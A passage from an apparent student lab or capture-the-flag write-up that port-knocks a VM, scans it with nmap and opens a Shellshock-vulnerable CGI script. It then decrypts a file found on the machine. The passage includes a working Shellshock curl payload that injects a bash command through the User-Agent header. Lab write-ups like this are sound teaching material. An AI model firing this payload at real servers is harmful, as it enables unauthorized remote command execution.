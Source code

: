 Apart from a lot of knock knock jokes, the first google page revealed interesting technique I didn't know about - port knocking. So... the numbers are ports and I'm supposed to knock on them!

### Knock Knock, anybody home?
I knocked using a very nice command [knock](http://manpages.ubuntu.com/manpages/xenial/man1/knock.1.html).
```bash
knock 192.168.1.127 7000:tcp 8000:tcp 9000:tcp 10000:tcp
```
And now what? The [ArchWiki](https://wiki.archlinux.org/index.php/Port_knocking) said that this technique is used for opening SSH ports, but the machine has the ports opened already. Just to be sure, I ran `nmap` once again.

```bash
sudo nmap -n -v -sS -sV 192.168.1.127 -T3 -p-
```
And now I got one more port - `8080` - to my collection! Wonderful!

### Exploiting the vulnerability
The subsequent `curl` returned following output:
```
This is a vulnerable web application for showcasing CVE 2014-6271, a.k.a. Shellshock.
```
Vulnerable application, very nice. I simply used the approach described on [exploit-db](https://www.exploit-db.com/exploits/34766) to get in.

```bash
curl -H "User-Agent: () { :; }; echo; echo; /bin/bash -c 'ls -al'" 192.168.1.127:8080/cgi-bin/stats
```
And voila! Winner winner chicken dinner! I was in.

The short exploration of machine showed a lot of files in the `/home/grinch` directory with our usernames -> so executing `cat /home/grinch/.forstluk.txt` on the Grinch's machine gave me the following output:
```
[a-zA-Z0-9]{3} symetric:
<criptic_text_here>
```
*Unfortunately I didn't store the cipher in plain text on my laptop and in the moment of writhing are the VMs not accessible. The [cipher screenshot](https://raw.githubusercontent.com/LukasForst/BSY/master/bonus/assets/decryption.png) can be seen bellow taken on Criptii site.*

### Decrypting...
It was apparent that we are looking at the encrypted text. But which cipher was used? The first line seemed to be hint - so 3 letters, upper and lower cases and numbers... Again, let's google a bit - first result for key `symetric ciphers` led me to the [list of ciphers](http://www.crypto-it.net/eng/symmetric/index.html). Two candidates for the regex - RC4 and RC2. I already knew my password - token given on the beginning of the assignment - `TroubledOlive`, but the ciphers needed an hexa version of it -> just convert it using [rapidtables](https://www.rapidtables.com/convert/number/ascii-to-hex.html).

[Criptii](https://cryptii.com/) for the rescue!
